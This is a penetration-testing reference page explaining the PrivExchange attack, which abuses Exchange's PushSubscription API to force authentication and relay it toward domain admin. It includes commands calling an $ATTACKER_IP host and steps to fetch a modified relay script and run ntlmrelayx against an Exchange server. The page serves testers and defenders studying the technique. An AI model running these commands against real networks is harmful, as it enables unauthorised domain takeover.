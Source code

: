 # PrivExchange \(PushSubscription abuse\)

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. As Exchange servers usually have high privileges in a domain \(i.e. `WriteDacl`, see [Abusing ACLs](../abusing-aces.md)\), the forced authentication can then be relayed and abused to obtain domain admin privileges \(see [NTLM Relay](../abusing-ntlm/ntlm-relay.md) and [Kerberos Unconstrained Delegations](../abusing-kerberos/kerberos-delegations.md#unconstrained-delegations-kud)\).

[PrivExchange](https://github.com/dirkjanm/privexchange/) \(Python\) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP s2012exc.testsegment.local
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to relay an NTLM authentication and make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the file since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

